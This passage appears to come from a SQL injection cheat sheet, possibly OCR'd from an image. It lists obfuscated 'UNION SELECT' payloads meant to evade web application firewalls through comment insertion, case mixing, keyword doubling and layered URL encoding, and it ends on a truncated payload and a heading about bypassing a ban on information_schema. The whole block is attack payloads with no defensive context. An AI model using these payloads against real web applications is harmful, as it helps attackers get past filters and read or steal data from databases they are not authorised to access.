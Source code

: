 ```sql
 
 UNION/*&test=1*/SELECT/*&pwn=2*/
 
 un?+un/**/ion+se/**/lect+
 
 +UNunionION+SEselectLECT+
 
 +uni%0bon+se%0blect+
 
 %252f%252a*/union%252f%252a /select%252f%252a*/
 
 /%2A%2A/union/%2A%2A/select/%2A%2A/
 
 %2f**%2funion%2f**%2fselect%2f**%2f
 
 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
 
 /*!UnIoN*/SeLecT+
 
##
#
#
#Union Select by PASS with Url Encoded Method:
 
%55nion(%53elect)
 
union%20distinct%20select
 
union%20%64istinctRO%57%20select
 
union%2053elect
 
%23?%0auion%20?%23?%0aselect
 
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
 
%55nion %53eLEct
 
u%6eion se%6cect
 
unio%6e %73elect
 
unio%6e%20%64istinc%74%20%73elect
 
uni%6fn distinct%52OW s%65lect
 
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%7
```

##### 9.information被ban
